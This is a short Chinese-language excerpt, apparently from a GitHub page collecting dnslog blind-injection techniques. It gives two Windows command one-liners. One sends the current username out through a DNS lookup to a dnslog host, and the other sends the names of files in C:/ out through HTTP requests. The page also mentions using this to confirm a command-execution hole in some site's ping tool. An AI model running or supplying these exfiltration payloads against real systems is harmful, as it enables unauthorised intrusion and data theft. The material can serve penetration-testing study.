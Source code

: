 获取用户名：

```
for /F "delims=/ tokens=2" %i in ('whoami') do ping -n 1 %i.test.dnslog.link
```

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-win-测试.png)



不能编码输出，但利用powershell可以实现；dir有/b参数，不显示修改日期等信息，只显示文件名，所以可以弹出：

```
for /F %x in ('dir /b C:/') do start http://test.dnslog.link/[%x].jpg
```

某站ping工具命令执行漏洞：dnslog验证：

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-win-测试结果.png)

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-win-测试结果-1.png)
